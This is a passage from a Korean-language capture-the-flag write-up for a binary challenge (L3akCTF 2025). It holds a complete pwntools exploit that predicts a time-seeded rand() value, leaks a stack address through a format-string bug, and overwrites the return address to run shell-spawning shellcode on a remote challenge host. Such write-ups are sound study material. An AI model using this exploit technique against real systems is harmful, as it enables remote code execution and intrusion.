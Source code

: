 ![image.png](/assets/img/l3akctf2025/image8.png)

leak한 주소와의 오프셋을 계산하면 ret 위치를 버퍼 시작주소로 덮을 수 있다.

쉘크래프트를 통해 시작주소에 쉘코드를 넣고, 패딩을 채운 뒤 ret위치에 stackleak-0x2b8을 넣어주면 익스가 될 것이라고 추측했다.

 

```python
from pwn import *
import time
from ctypes import CDLL

context.log_level = 'debug'
context.arch = 'amd64'
libc = ELF('libc.so.6')
rop = ROP(libc)

#p = process('./chall')
p = remote('34.45.81.67', 16004)
#p = remote('localhost', 16004)

libc_CDLL = CDLL('libc.so.6')

seed = int(time.time())
libc_CDLL.srand(seed)
nhonks = (libc_CDLL.rand() % 91) + 10

p.sendlineafter(b'> ', b'K')
p.sendlineafter(b'honks?', str(nhonks).encode())

p.sendlineafter(b'name again?', b'%15$p')
leak = p.recvuntil(b'message')

leak = leak.decode().strip()
addr_str = leak.replace("wow ", "").split()[0]
stack_leak = int(addr_str, 16)

shell = asm(shellcraft.sh())
payload = shell 
payload += b'A'*(0x178 - len(shell)) 
payload += p64(stack_leak - 0x2b8)

#pause()
p.sendlineafter(b'?', payload)

p.interactive()
```

![image.png](/assets/img/l3akctf2025/image9.png)
